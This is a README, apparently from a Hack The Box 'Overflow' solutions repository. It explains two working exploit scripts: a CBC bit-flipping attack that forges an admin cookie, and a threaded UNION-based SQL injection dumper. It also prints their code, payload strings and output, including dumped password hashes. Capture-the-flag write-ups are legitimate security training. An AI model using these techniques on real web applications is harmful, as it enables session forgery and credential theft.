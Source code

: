 # Hack The Box. Machines. Overflow

Machine write-up: https://7rocky.github.io/en/htb/overflow

### `bit_flipper.py`

This script performs a Bit Flipper Attack in a cookie that is encrypted with DES CBC (8-length block). The bit flip occurs at the IV, which is appended to the cookie after the encryption process (more information in the [write-up](https://7rocky.github.io/en/htb/overflow)).

I found two ways of getting a valid cookie for `admin` (so that the contents of the cookie would decrypt as `user=admin`). The first one creates a new user called `` `dmin`` or `bdmin` (ASCII letters near to `a`):

```python
def main_bf():
    original_cookie, original_length = do_login('`dmin')
    print(f'[+] Original cookie for user `dmin: {original_cookie}')

    n = len(to_hex(original_cookie)) * 4 - 1
    threads = []

    for i in range(n, -1, -1):
        try:
            cookie = b64e(l2b(int(to_hex(original_cookie), 16) ^ (1 << i)))
            threads.append(Thread(target=try_cookie,
                                  args=(cookie.decode(), original_length)))
        except UnicodeDecodeError:
            pass

    [t.start() for t in threads]
    [t.join() for t in threads]
```

Basically, the function takes the cookie from `` `dmin``, transforms it to an integer, makes a bit flip on each position and reverts it to Base64 encoding. Then it tries the cookie to see if it is valid for `admin`:

```python
def try_cookie(cookie: str, original_length: int):
    try:
        r = requests.get('http://overflow.htb/home/index.php',
                         headers={'Cookie': f'auth={cookie}'})
        if original_length < len(r.text):
            print(f'[*] Bit-flip cookie for user admin: {cookie}')
    except (ConnectionError, ValueError):
        pass
```

The value to check if the cookie is valid or not is the length of the response after setting the "Bit-flip" cookie. If it is greater, then we have successfully logged in as `admin`. We take the cookie and the length of an initial request from `do_login`:

```python
def do_login(user: str) -> Tuple[str, int]:
    pw = 'asdffdsa'
    r = requests.post('http://overflow.htb/register.php', allow_redirects=False,
                      data={'username': user, 'password': pw, 'password2': pw})

    if r.headers.get('Set-Cookie') is None:
        r = requests.post('http://overflow.htb/login.php', allow_redirects=False,
                          data={'username': user, 'password': pw})

    original_cookie = r.headers.get(
        'Set-Cookie')[len('auth='):].replace('%2F', '/')

    r = requests.get('http://overflow.htb/home/index.php',
                     headers={'Cookie': f'auth={original_cookie}'})
    original_length = len(r.text)

    return original_cookie, original_length
```

And this is some output:

```console
$ python3 bit_flipper.py
[+] Original cookie for user `dmin: 8XriuBxV78NQchc7XKNVUHlt4qIutBEK  
[*] Bit-flip cookie for user admin: 8XriuBxU78NQchc7XKNVUHlt4qIutBEK
```

After identifying that the cookie has the IV appended to it and the bit flip occurs right there, since the block size is 8 bytes and the cookie we want is `user=admin`, we could even create an account using `ZZZin` as username (cookie: `user=ZZZin`). We will be able to modify some bits from the IV so that when decrypting the cookie, it results in `user=admin`:

```python
def main_special():
    original_cookie, original_length = do_login('ZZZin')
    print(f'[+] Original cookie for user ZZZin: {original_cookie}')

    hex_cookie = to_hex(original_cookie)
    iv = hex_cookie[:16]
    prev_iv = int(iv, 16) ^ int(b'ZZZ'.hex(), 16)
    mod_iv = hex(prev_iv ^ int(b'adm'.hex(), 16))[2:]
    new_hex_cookie = mod_iv + hex_cookie[16:]
    new_hex_cookie = '0' * (len(new_hex_cookie) % 2) + new_hex_cookie
    new_cookie = b64e(binascii.unhexlify(new_hex_cookie)).decode()

    try_cookie(new_cookie, original_length)
```

It is based in XOR operations following the decryption scheme for CBC. These are the important lines:

```python
    hex_cookie = to_hex(original_cookie)
    iv = hex_cookie[:16]
    prev_iv = int(iv, 16) ^ int(b'ZZZ'.hex(), 16)
    mod_iv = hex(prev_iv ^ int(b'adm'.hex(), 16))[2:]
    new_hex_cookie = mod_iv + hex_cookie[16:]
```

```console
$ python3 bit_flipper.py
[+] Original cookie for user `dmin: v4x9O4JGWBefl0R7W2jyM5IHbat9NM1F
[*] Bit-flip cookie for user admin: v4x9O4JHWBefl0R7W2jyM5IHbat9NM1F
[*] Bit-flip cookie for user admin: v4x9O4LGWBefl0R7W2jyM5IHbat9NM1F
[+] Original cookie for user ZZZin: qa/85J7b/mbQeWjB/83qCDUgixOHCi3f
[*] Bit-flip cookie for user admin: qa/85J7gwFHQeWjB/83qCDUgixOHCi3f
```

Take a look at the [write-up](https://7rocky.github.io/en/htb/overflow) to see two more ways to access as `admin` and to view some nice graphics.

### `sqli.rb`

This script is used to exploit a SQL injection vulnerability (MySQL). It is designed to be used step by step (databases, tables, columns and values). For that, we make use of parameters:

```ruby
OptionParser.new do |opt|
  opt.on('--get-dbs') { |_o| options[:get_dbs] = true }
  opt.on('--db DATABASE_NAME') { |o| options[:db_name] = o }
  opt.on('--get-tables') { |_o| options[:get_tables] = true }
  opt.on('--table TABLE_NAME') { |o| options[:table_name] = o }
  opt.on('--get-columns') { |_o| options[:get_columns] = true }
  opt.on('--columns COLUMN_1[,COLUMN_2,...]') { |o| options[:columns] = o }
end.parse!
```

First of all, the type of SQLi is Union-based ni the third column and it must be done with a closing bracket (check the [machine write-up](https://7rocky.github.io/en/htb/overflow) for more information). Then we use some string manipulation to extract the information:

```ruby
def do_sqli(query)
  payload = "') union select 1,1,(#{query}) union select 1,1,('1"
  url = URI("http://overflow.htb/home/logs.php?name=#{payload}")

  cookie = 'auth=27D0zsl796kY3V6LjcNvRu3vWRAmWEBA'
  res = Net::HTTP.get(url, { Cookie: cookie })

  return '' if res.empty?

  res.split("<div id='last'>Last login : ").last.delete_suffix('</div><br>')
end
```

Notice that we provided a cookie to access as `admin` (it was required to access the vulnerable route).

To improve the speed of the requests, we can make use of threads:

```ruby
def do_sqli_threads(query, number)
  res = Array.new(number)
  threads = Array.new(number)

  (0...number).each do |i|
    threads[i] = Thread.new { res[i] = do_sqli("#{query} limit #{i},1") }
  end

  threads.each(&:join)
  res
end
```

The above function is used when a table has more than one row, so that every row is extracted nearly at the same time. Hence, for every information leakage, we first count the number of values to initialize the threads.

For example, we have this code snippet to extract the databases:

```ruby
if options[:get_dbs]
  n = do_sqli('select count(*) from information_schema.schemata').to_i
  puts "[*] Number of databases: #{n}.\n\n"

  query = 'select schema_name from information_schema.schemata'

  puts do_sqli_threads(query, n)
  exit
end
```

```console
$ ruby sqli.rb --get-dbs
[*] Number of databases: 4.  

information_schema
Overflow
cmsmsdb
logs
```

Most of the other blocks are similar. The one that is different is this:

```ruby
unless options[:db_name].empty? || options[:table_name].empty? || options[:columns].empty?
  db_name = options[:db_name]
  table_name = options[:table_name]
  column_names = options[:columns].split(',')
  columns = column_names.join(",' *** ',")

  n = do_sqli("select count(*) from #{db_name}.#{table_name}").to_i
  puts "[*] Number of rows in #{db_name}.#{table_name}: #{n}.\n\n"

  query = "select concat(#{columns}) from #{db_name}.#{table_name}"

  res = do_sqli_threads(query, n)

  res.each_with_index do |result, i|
    res_obj = {}
    result.split(' *** ').each_with_index { |r, j| res_obj[column_names[j]] = r }
    res[i] = res_obj
  end

  col_labels = {}
  column_names.each { |c| col_labels[c] = c }

  columns = col_labels.each_with_object({}) do |(col, label), h|
    h[col] = { label:, width: [res.map { |g| g[col].size }.max, label.size].max }
  end

  write_table(res, columns)
end
```

It is used to show the contents of given columns from a table in such a beautiful table:

```console
$ ruby sqli.rb --db cmsmsdb --table cms_users --columns user_id,username,password,admin_access  
[*] Number of rows in cmsmsdb.cms_users: 2.

+---------+----------+----------------------------------+--------------+
| user_id | username | password                         | admin_access |
+---------+----------+----------------------------------+--------------+
| 1       | admin    | c6c6b9310e0e6f3eb3ffeb2baff12fdd | 1            |
| 3       | editor   | e3d748d58b58657bfa4dffe2def0b1c7 | 1            |
+---------+----------+----------------------------------+--------------+
```

Take a look at the source code to see other functions.
